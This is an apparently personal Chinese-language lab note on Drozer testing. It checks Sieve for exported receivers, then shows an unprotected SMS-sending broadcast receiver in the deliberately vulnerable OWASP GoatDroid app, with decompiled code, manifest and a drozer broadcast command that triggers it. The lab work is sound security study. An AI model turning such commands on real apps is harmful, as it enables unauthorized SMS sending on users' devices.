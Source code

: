 ```yaml
---
title: Test Sieve - broadcast receivers exported
tags: [Android, Drozer]

category: "Tools/Others/Android Related/Drozer/Test Sieve"
---
```


# Test Sieve - broadcast receivers exported
<!-- more -->
這個就不是用Sieve做示範，因為這個App沒有match的receiver
```bash
dz> run app.broadcast.info -a com.mwr.example.sieve
Attempting to run shell module
Package: com.mwr.example.sieve
  No matching receivers.
```
所以我就用之前安裝的goatdroid做示範
1. 檢查broadcast receiver
    ```bash
    dz> run app.broadcast.info -a org.owasp.goatdroid.fourgoats
    Attempting to run shell module
    Package: org.owasp.goatdroid.fourgoats
      org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver
        Permission: null
    ```
2. 確認後就逆向看一下
    在`org.owasp.goatdroid.fourgoats.broadcastreceivers`中有SendSMSNowReceiver這個class，內容如下:
    ```java
    public class SendSMSNowReceiver extends BroadcastReceiver {
        Context context;

        @Override // android.content.BroadcastReceiver
        public void onReceive(Context arg0, Intent arg1) {
            this.context = arg0;
            SmsManager sms = SmsManager.getDefault();
            Bundle bundle = arg1.getExtras();
            sms.sendTextMessage(bundle.getString("phoneNumber"), null, bundle.getString("message"), null, null);
            Utils.makeToast(this.context, Constants.TEXT_MESSAGE_SENT, 1);
        }
    }
    ```
3. Send Something
    此時我們就可以用drozer發出一個intent，但是在發出之前要看一下AndroidManifest.xml中對於receiver的描述如下，如果想知道這個intent-filter代表的事情可以參考[^chatgpt-intent-filter]，簡單來說就是所有app都可以發出broadcast，那什麼樣的intent會被goatdroid所接收呢?就是帶有`org.owasp.goatdroid.fourgoats.SOCIAL_SMS`這個action才會被接收，並且觸發onReceive這個function
    ```xml
    <manifest versionCode="1" versionName="1.0" package="org.owasp.goatdroid.fourgoats">
      ...
      <application theme="@2131361870" label="@2131296266" icon="@2130837632" debuggable="true">
        ...
        <receiver label="Send SMS" name=".broadcastreceivers.SendSMSNowReceiver">
          <intent-filter>
            <action name="org.owasp.goatdroid.fourgoats.SOCIAL_SMS"></action>
          </intent-filter>
        </receiver>
      </application>
      ...
    </manifest>
    ```
    ```bash!
    dz> run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --component org.owasp.goatdroid.fourgoats.broadcastreceivers SendSMSNowReceiver --extra string phoneNumber 123456789 --extra string message "Hello mate!"
    ```
    因為fourgoat這個App需要一個server，但是原作把server的link下架了，所以我也不知道實際送出這個broadcast會有什麼效果，但就是先紀錄起來，之後有機會可以用